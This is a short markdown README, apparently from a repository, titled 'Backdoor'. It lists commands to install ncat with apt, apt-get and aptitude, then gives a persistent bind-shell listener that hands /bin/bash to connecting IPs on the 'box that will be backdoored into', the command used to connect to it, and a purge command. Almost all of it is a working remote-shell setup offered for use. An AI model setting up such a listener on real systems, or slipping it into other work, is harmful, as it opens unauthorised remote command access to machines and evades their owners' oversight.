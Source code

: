 # Backdoor 
## Install ncat on the locat box
### Apt-get (Install)
'sudo apt-get update'
'sudo apt-get -y install ncat'

### Apt (Install)
'sudo apt update'
'sudo apt -y install ncat'

### Aptitude (Install)
'sudo aptitude update'
'sudo aptitude -y install ncat'

## Local box that will be backdoored into 
'ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>

## Box that will backdoor into local machine 
'ncat -nv <ip address of local box> <port> 



### If ncat needs to be deleated
'sudo apt-get -y autoremove --purge ncat'


